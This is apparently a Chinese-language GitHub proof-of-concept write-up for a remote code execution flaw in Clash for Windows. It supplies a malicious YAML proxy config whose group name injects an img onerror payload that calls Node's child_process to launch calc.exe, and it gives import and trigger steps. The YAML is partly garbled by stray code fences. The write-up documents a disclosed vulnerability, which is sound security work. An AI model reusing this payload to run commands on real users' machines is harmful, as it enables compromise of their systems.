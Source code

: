 # Clash_for_Windows-远程代码执行漏洞:漏洞利用poc,远程rce

Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍

```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

# 0x02:漏洞复现

## 从以下链接下载Windows版本：

<div>
https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>

## 在windows10虚拟机中打开Clash_for_Windows

# 0x03:poc

````
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
name: atype: socks5
server: 127.0.0.1
port: "17938"
skip-cert-verify: true
name: abc
type: socks5
server: 127.0.0.1
port: "8088"
skip-cert-verify: true
```
proxy-groups:
```

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
type: select
proxies:
- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
````

## 导入该poc：

import

### 在当前界面点击：

Proxies

# 此时弹出计算器，漏洞成功利用。

# 0x04:

###### 原作者pr链接：

```
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
```

里面包含了poc和复现方法。

本次本地复现来源于上述链接！
